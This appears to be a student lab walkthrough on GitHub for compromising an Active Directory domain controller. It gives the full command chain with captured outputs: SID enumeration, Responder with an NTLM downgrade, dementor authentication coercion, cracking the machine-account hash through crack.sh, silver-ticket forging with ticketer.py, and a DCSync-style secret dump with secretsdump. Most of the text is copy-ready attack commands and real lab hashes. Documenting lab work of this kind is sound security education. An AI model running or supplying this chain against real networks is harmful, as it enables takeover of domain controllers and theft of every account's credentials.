 You can watch a video walk-through here: https://youtu.be/WuDTcwCjZ5s
# Getting the SID
```bash
enum4linux 192.168.50.135
```
The only information you need to run this command is the IP address of the Domain controller which in my case was 192.168.50.135.
![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415122818.png)

We find that the SID is "S-1-5-21-3294894903-2995586124-3146476039"
This will be used later when generating the silver ticket.

# Responder
```bash
sudo python Responder.y -I eth0 -wrf --lm
```
Here the argument "--lm" is important because it downgrade the authentication used so that we can use crack.sh for free.

# Dementor
While responder is running, we can use dementor so that responder catches the response.
```bash
python3 dementor.py -u hacker -p ‘WordPass1’ -d CYBERTIGERS 192.168.50.136 192.168.50.135
```
Here the username is "hacker" with password "WordPass1", the domain is cybertigers and the first IP address is the attacker's machine and the second IP is the Domain Controller.
![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415123018.png)

We get the hash for the machine account to be WIN-A2HCLSJFD0C$::CYBERTIGERS:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:1122334455667788

# NTLM MultiTool
``` bash 
python ntlmv1.py --ntlmv1 "WIN-A2HCLSJFD0C$::CYBERTIGERS:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:1122334455667788"
```
![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415123624.png)

This output of this command gives the exact syntax to crack the hash using either hashcat or crack.sh

# Crack.sh
![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415123723.png)

You can see from the screenshot I took the output of the last command and put it in crack.sh to crack and did not have to pay. It takes about 30 seconds to crack and I got the token of b704c94f943cd358cc77900267266b65

# Generating a Silver Ticket
```bash
python3 ticketer.py -nthash b704c94f943cd358cc77900267266b65 -domain-sid S-1-5-21-3294894903-2995586124-3146476039 -domain CYBERTIGERS.net -spn "HOST/DC1.CYBERTIGERS.net" Administrator
```
We give ticketer.py the token from crack.sh and it is of type nthash, along with the SID we got earlier, the domain cybertigers, the spn which in this case is the default value, and the Administrator username which is again default in this case.
![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415124056.png)

The output is a file called Administrator.ccache

# DC Sync Time!
```bash
export KRB5CCNAME=Administrator.ccache
```
First you need to set the variable name KRB5CCNAME to the Administrator.ccache in order for secretsdump to work

```bash
python3 secretsdump.py Administrator@DC1.cybertigers.net -k -no-pass
```
Then we can run secrets dump giving it the username Administrator @ DC1 . the domain which is cybertigers.net and then we specify to use Kerberos because we have a silver ticket and to not ask for a password.
![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415124416.png)
And that is it!
